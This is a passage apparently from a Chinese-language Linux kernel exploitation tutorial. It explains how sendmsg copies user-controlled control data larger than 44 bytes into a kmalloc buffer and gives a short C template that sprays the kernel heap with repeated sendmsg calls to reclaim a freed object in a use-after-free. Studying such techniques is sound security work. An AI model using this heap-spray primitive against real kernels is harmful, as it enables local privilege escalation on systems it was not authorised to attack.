    ```c
                                sizeof(ctl));
           if (err)
               goto out_freeiov;
           ctl_buf = msg_sys->msg_control;
           ctl_len = msg_sys->msg_controllen;
       } else if (ctl_len) {
           BUILD_BUG_ON(sizeof(struct cmsghdr) !=
                    CMSG_ALIGN(sizeof(struct cmsghdr)));
           if (ctl_len > sizeof(ctl)) {  //注意用户数据的size必须大于44字节
               ctl_buf = sock_kmalloc(sock->sk, ctl_len, GFP_KERNEL);//sock_kmalloc最后会调用kmalloc 分配 ctl_len 大小的堆块
               if (ctl_buf == NULL)
                   goto out_freeiov;
           }
           err = -EFAULT;
           /* 注意，msg_sys->msg_control是用户可控的用户缓冲区；ctl_len是用户可控的长度。  用户数据拷贝到ctl_buf内核空间。
            */
           if (copy_from_user(ctl_buf,
                      (void __user __force *)msg_sys->msg_control,
                      ctl_len))
               goto out_freectl;
           msg_sys->msg_control = ctl_buf;
       }
       msg_sys->msg_flags = flags;
   ...
   ```

   若想要触发kmalloc，传入的size需要大于44.

   用户态利用模版：

   ```c
   //限制: BUFF_SIZE > 44
   char buff[BUFF_SIZE];
   struct msghdr msg = {0};
   struct sockaddr_in addr = {0};
   int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
   addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
   addr.sin_family = AF_INET;
   addr.sin_port = htons(6666);
   // 布置用户空间buff的内容
   msg.msg_control = buff;
   msg.msg_controllen = BUFF_SIZE; 
   msg.msg_name = (caddr_t)&addr;
   msg.msg_namelen = sizeof(addr);
   // 假设此时已经产生释放对象，但指针未清空
   for(int i = 0; i < 100000; i++) {
     sendmsg(sockfd, &msg, 0);
   }
   // 触发UAF即可
   ```

3. Msgsnd
